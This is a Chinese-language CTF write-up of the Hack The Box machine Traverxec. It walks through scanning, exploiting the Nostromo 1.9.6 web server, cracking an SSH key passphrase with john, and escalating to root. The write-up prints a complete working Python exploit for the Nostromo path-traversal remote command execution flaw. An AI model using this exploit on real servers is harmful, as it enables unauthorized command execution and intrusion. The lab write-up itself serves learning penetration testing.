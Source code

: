 ```yaml
---
title: Hack The Box - Traverxec の Write-Up
date: 2019-12-17 19:15:47
categories:
- WriteUPs
- Hack The Box
tags:
- Web
---
```

## 前言

&emsp;&emsp;Hack The Box是一个非常完备的渗透测试训练靶场，比较接近于实战，许多机器存在不小的难度。不过美中不足的一是会员价格太贵，二是需要通过VPN接入实验网络，然而国内连接实在是有点慢，特别是晚上网络高峰期，各种连接失败不在话下。

&emsp;&emsp;这两天玩了[Traverxec](https://www.hackthebox.eu/home/machines/profile/217)这台靶机，相较而言是一个很简单的机器了，但是也学到了不少东西。

![](/img/Traverxec/Traverxec1.png)

<!-- more -->

## Step 1：扫描

&emsp;&emsp;第一步当然是常规的Nmap扫描：

![](/img/Traverxec/Traverxec2.png)

&emsp;&emsp;可以看到靶机只开放了22和80两个端口。

## Step 2：渗透

&emsp;&emsp;从Nmap扫描结果来看80端口开放的是Nostromo 1.9.6服务，网站页面本身并不能找到什么可以利用的漏洞。

![](/img/Traverxec/Traverxec3.png)

&emsp;&emsp;emmm，David是个信息点。

&emsp;&emsp;Web界面上找不到什么好玩的东西了，既然我们有了Nostromo的具体版本号，那就去搜索一下有没有可以利用的漏洞：

![](/img/Traverxec/Traverxec4.png)

&emsp;&emsp;不搜不知道，一搜吓一跳，第一条就是最喜欢的远程命令执行漏洞。下面给出EXP：

```Python
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd)
```

&emsp;&emsp;运行脚本即可获得反弹shell：

![](/img/Traverxec/Traverxec5.png)

![](/img/Traverxec/Traverxec6.png)

&emsp;&emsp;显然得到的是一个非交互shell，通过熟悉的命令可得到交互式shell，不熟悉的可以去看我之前DC系列靶机的Write-Ups。

## Step 3：突破

&emsp;&emsp;此时在目录下可以找到Nostromo服务的配置文件：

![](/img/Traverxec/Traverxec7.png)

&emsp;&emsp;在配置文件中发现存在Public文件夹public_www。但是尝试进入/home/david文件夹后提示权限禁止。

![](/img/Traverxec/Traverxec8.png)

&emsp;&emsp;于是不管这一层，直接进入public_www文件夹：

![](/img/Traverxec/Traverxec9.png)

&emsp;&emsp;果然在这个文件夹里发现了好东西，看名字就是ssh的登录凭证，后面的思路一下就有了。但是有个问题，怎么把这个文件下载到本地呢？

![](/img/Traverxec/Traverxec10.png)

![](/img/Traverxec/Traverxec11.png)

&emsp;&emsp;巧妙的通过base方法即可实现该文件的下载，快拿小本本记一下。解压这个文件，果然是ssh登录凭证。

![](/img/Traverxec/Traverxec12.png)

&emsp;&emsp;但是尝试通过这个凭证登录时提示需要使用凭证的密码，这时候只有通过john工具来暴力破解了。[这里](https://blog.csdn.net/qq_40490088/article/details/97812715)对这种方法有详细的解释。

![](/img/Traverxec/Traverxec13.png)

![](/img/Traverxec/Traverxec14.png)

![](/img/Traverxec/Traverxec15.png)

&emsp;&emsp;这样我们就得到了ssh凭证的密码：hunter。结合Web页面得到的david信息点，我们通过ssh登录靶机：

![](/img/Traverxec/Traverxec16.png)

## Step 4：提权

&emsp;&emsp;我们已经以david的身份登录了靶机，下一步就是尝试提权获取靶机root权限。在当前文件夹下发现一个奇怪的目录bin，进去之后看到一个服务的脚本，好奇心促使我看了一眼：

![](/img/Traverxec/Traverxec17.png)

&emsp;&emsp;果然有猫腻，这个服务居然有root权限。ok，轻松提权：

![](/img/Traverxec/Traverxec18.png)

&emsp;&emsp;至此，这个靶机算是完全被我们掌控。